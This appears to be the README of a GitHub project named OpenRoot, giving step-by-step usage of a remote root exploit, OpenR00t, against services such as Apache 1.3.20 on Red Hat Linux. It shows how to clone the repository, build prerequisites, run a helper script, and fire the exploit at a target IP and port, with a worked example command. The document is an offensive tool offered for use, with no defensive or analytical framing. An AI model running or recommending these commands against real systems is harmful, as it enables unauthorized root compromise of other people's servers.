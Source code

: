 # OpenRoot
## Usage

1. Download OpenR00t.c
```
git clone https://github.com/rony926/OpenRoot.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. Set Permission

```
chmod +x h4kliv3.sh
```

4. Run

```
./h4kliv3.sh
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6b option
./OpenR00t 0x6b [Target Ip] [port] -c 40

for example:
```
./OpenR00t 0x6b 192.168.80.145 443 -c 40
```
